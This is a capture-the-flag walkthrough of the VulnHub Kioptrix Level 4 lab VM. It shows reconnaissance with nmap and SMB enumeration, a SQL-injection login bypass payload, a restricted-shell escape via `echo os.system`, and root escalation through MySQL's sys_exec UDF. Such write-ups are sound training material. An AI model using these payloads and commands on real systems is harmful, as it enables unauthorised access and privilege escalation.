 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 4"
date: 2022-03-05
categories: [VulnHub]
tags: [boot2root]
image: ![image](https://user-images.githubusercontent.com/67465230/156875348-2c561db7-948d-4c9b-9f8a-8104eebe1757.png)

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/156876091-8a7d29f5-477a-4f01-ac56-c3c92b95e31d.png)

Okay, so the IP address of the box is 10.0.2.71.

Now, let's start port scanning with nmap,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876096-599dedca-a8c7-40af-8bdb-d4a171e8f104.png)

we can see that there are 3 ports open 22(SSH), 80(http), 139,445(SMB).

Okay, we got SMB service running on this machine, so let's enumerate all users with nmap's smb-enum-users script,

```bash
sudo nmap -sC --script=smb-enum-users 10.0.2.71 -oN nmap_smb-users
```

![image](https://user-images.githubusercontent.com/67465230/156876105-12fc31b4-ae7e-4c04-b4d1-fe65fa3f9444.png)

we got John User.

Let's check what technologies are running on website,

```bash
whatweb http://10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876115-e37ff5a5-a13f-4647-ac5b-f64df1e05eca.png)

It has password field that means there's a login page as well. Great!!

Let's visit http://10.0.2.71,

![image](https://user-images.githubusercontent.com/67465230/156876126-04ccfa62-f079-45cb-b556-d64cf4c12676.png)

we got login page. Since this box has login mechanism then chances are MySQL service might be running as well ( hopefully it does :) ) and this box is vulnerable to SQLi. So let's try to login using structured query,

providing `username=john and password=1' or 1=1#`,

![image](https://user-images.githubusercontent.com/67465230/156876135-0c585504-8c85-44dc-917b-f28587240919.png)

now press login button,

we got in as john user and there we got login creds (SSH ? let's see! ),

![image](https://user-images.githubusercontent.com/67465230/156876148-0c85aacf-c153-4603-b71c-d03d9b0a62eb.png)

Let's ssh using these creds,

```bash
ssh john@10.0.2.71
```

![image](https://user-images.githubusercontent.com/67465230/156876153-b9600342-7f69-4d57-9f0c-df0cb3ebde6d.png)

we got shell!!

let's Identify who we are,

```bash
whoami
id
```

![image](https://user-images.githubusercontent.com/67465230/156876160-1bda5222-e187-4caa-a7a0-5e2a672d77af.png)

Huh?? command won't work? let's try other commands.

try to change directory with cd command,

![image](https://user-images.githubusercontent.com/67465230/156876165-2bd7ed92-93d3-4589-8126-3f791f85e2f7.png)

We got warning and looks like if we type one more command then system will throw us out!! It throws me like trash for few times XD. But why? maybe we have under privilege shell. Let's see what commands we can run,

```bash
help
```

![image](https://user-images.githubusercontent.com/67465230/156876199-8fb87519-84f6-4845-a96d-461b777fd4d4.png)

seems like aren't much commands we can run but there echo command seems great friend to us right now. Let's use it to gain a fully functional shell,

```bash
echo os.system("/bin/bash")
```

![image](https://user-images.githubusercontent.com/67465230/156876203-e6260649-e468-4064-8479-f57a995dfc07.png)

we can now identify who we are with whoami command.

Now, that we got access as John user, now we'll move towards Privilege Escalation. For that, do ENUMERATION!!

After some enumeration, I found a file named checklogin.php in /var/www directory. let's view the content of file,

```bash
cat checklogin.php
```

![image](https://user-images.githubusercontent.com/67465230/156876215-fa0ea7f2-655b-401c-947b-59e43e2c57e8.png)

As you can see that, there is no password, so you can easily bypass MYSQL with UDF, [command-execution-with-mysql-udf](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html), means we can escalate our privileges to root!

But before to proceed, let's check whether MySQL service is running with root privileges or not by typing the following command:

```bash
ls -la /user/lib/lib_mysqludf_sys.so
```

![image](https://user-images.githubusercontent.com/67465230/156876228-4ac8649b-a315-47e1-b97b-c6bc4d65525b.png)

Yes, mysql service is running so now, let's connect to mysql database with mysql client.

```bash
mysql -h localhost -u root -p
```

![image](https://user-images.githubusercontent.com/67465230/156876238-74c32a12-eb2d-4807-9e71-df25fdbf6332.png)

show databases; will give you a list of all databases.

Let's run a usermod command with sys_exec to give john admin privileges,

```bash
select sys_exec("usermod -a -G admin john"); exit
```

![image](https://user-images.githubusercontent.com/67465230/156876245-1e4e112f-789c-42d5-bd3c-cf23bddd7c1d.png)

This will add john to admin group and we'll take exit.

Now, let's switch to superuser,

```bash
sudo su
```

![image](https://user-images.githubusercontent.com/67465230/156876266-6021fbd0-bcb8-4407-a746-52f3e1b2b8bd.png)

by providing the password we found after exploiting login mechanism of machine using SQLi, we got system access and we confirmed it using id command.

navigating to /root directory and establish all directory content with ls,

![image](https://user-images.githubusercontent.com/67465230/156876271-4e9bef95-5c01-4e14-82d1-f4c1ea3dbcbb.png)

we got root flag. Let's view the content of it,

```bash
cat congrats.txt
```

![image](https://user-images.githubusercontent.com/67465230/156876296-f852ebbb-0363-4cf0-9061-725ff84e4dd1.png)

We've successfully rooted this machine.